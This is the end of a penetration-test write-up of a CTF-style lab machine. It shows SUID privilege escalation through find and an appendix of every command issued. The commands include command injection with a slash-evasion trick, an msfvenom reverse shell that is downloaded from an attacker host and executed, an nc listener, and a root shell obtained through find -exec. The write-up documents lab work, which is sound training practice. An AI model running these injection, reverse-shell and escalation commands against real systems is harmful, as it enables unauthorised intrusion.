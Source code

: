 ![/usr/bin/find with setuid permissions](https://imgur.com/iLAlXN9.png)

The tester was able to abuse this misconfiguration to obtain a privileged shell.

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

### Post-Exploitation

As proof of post-exploitation, the tester captured the _proof.txt_ flag.

![Root flag](https://imgur.com/tc8MU2J.png)

## Appendix A: Commands Issued

```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.88.15
gobuster dir -u http://192.168.189.107 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html,txt -o directories.txt

# Inspect images
wget http://192.168.88.15/new.jpg
wget http://192.168.88.15/ctf-01.jpg
wget http://192.168.88.15/haclabs.jpeg
wget http://192.168.88.15/Short.png
steghide extract -sf haclabs.jpeg # passphrase:harder
cat imp.txt | base64 -d > imp-decoded.txt

# superadmin.php inspection
| id
| cat superadmin.php
| cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
| 'l's -la

# Preparing reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
python3 -m http.server 80
nc -lvnp 1337

# superadmin.php reverse shell upload and execution
| wget http:$(echo . | tr '!-0' '"-1')$(echo . | tr '!-0' '"-1')192.168.49.88$(echo . | tr '!-0' '"-1')revshell.elf -O $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')revshell
| chmod +x $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')revshell
| $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')revshell

# Initial Access
cd /home/yash
cat local.txt

# Privilege Escalation
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt
cat suids.txt
/usr/bin/find . -exec /bin/bash -p \; -quit
id; pwd; cat proof.txt; ip a s
```
